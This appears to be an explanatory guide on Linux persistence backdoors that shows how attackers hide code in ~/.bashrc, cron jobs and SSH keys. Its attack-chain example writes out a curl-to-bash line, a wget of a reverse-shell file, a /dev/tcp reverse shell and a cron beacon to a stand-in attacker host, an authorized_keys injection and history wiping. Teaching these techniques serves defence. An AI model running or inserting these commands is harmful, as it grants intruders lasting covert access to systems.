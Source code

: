 ### Phase 3: You Never Notice
```bash
# Days/weeks/months later, every time you:
- Open a terminal -> Attacker's code runs
- SSH into the server -> Attacker's code runs
- Run a cron job -> Attacker's code runs

# Meanwhile the attacker:
- Steals data quietly
- Uses your server for crypto mining
- Uses your IP for attacks on others
- Installs more backdoors
```

### Why It's So Effective

1. **One-time compromise, permanent access**
   - You patch the initial vulnerability
   - But the backdoor remains in `.bashrc`
   - Attacker keeps access indefinitely

2. **Hidden in legitimate locations**
   ```bash
   # Your ~/.bashrc looks normal at first glance:
   # 50 lines of normal bash configuration
   # Line 51: PS1='\u@\h:\w\$ '
   # Line 52: $(curl -s http://tiny-url/x | bash)  # <- Easy to miss
   # 20 more lines of normal config
   ```

3. **Survives system updates**
   - OS updates don't touch user config files
   - Backdoor remains even after "full system update"

4. **Works across sessions**
   - Reboot doesn't remove it
   - New SSH sessions trigger it
   - Runs with YOUR permissions

### Real-World Attack Chain Example

```bash
# Step 1: Attacker compromises via vulnerable app
exploit-vulnerable-wordpress-plugin.sh

# Step 2: Escalate to shell access
wget http://attacker.com/reverse-shell.php -O /tmp/shell.php

# Step 3: Install persistence (this is the scary part)
echo 'bash -i >& /dev/tcp/attacker.com/4444 0>&1 &' >> ~/.bashrc
echo '* * * * * curl -s attacker.com/beacon' | crontab -
mkdir -p ~/.ssh && echo "ssh-rsa AAAA...attacker-key" >> ~/.ssh/authorized_keys

# Step 4: Clean up evidence
rm /tmp/shell.php
history -c

# Step 5: Wait
# Now attacker has:
# - Backdoor in .bashrc (runs every terminal)
# - Cron job (runs every minute)
# - SSH key (direct access anytime)
```
